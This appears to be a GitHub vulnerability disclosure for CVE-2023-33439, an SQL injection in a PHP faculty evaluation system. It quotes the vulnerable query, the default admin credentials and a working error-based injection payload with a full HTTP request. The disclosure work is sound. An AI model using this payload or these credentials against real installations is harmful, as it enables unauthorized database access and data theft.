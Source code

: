 # Faculty Evaluation System v1.0 by oretnom23 has SQL injection

[CVE-2023-33439](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-33439)

[NVD Score: **7.2 HIGH**](https://nvd.nist.gov/vuln/detail/CVE-2023-33439)

Admin account password： admin@admin.com/admin123
 
BUG_Author: WuQi Qi and Zhihong Tian, Guangzhou University

vendors: https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /eval/admin/manage_task.php?id=

Vulnerability location: /eval/admin/manage_task.php?id=, id

Vulnerability sql: `$qry = $conn->query("SELECT * FROM task_list where id = ".$_GET['id'])->fetch_array();` 

dbname =evaluation_db

[+] Payload: /eval/admin/manage_task.php?id=1%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id

```sql
GET /eval/admin/manage_task.php?id=1%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=lrrse02i69soj9l3lnarhnd9ck
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/233832362-0d030e91-ce80-4c07-8594-ef055a10f67d.png)
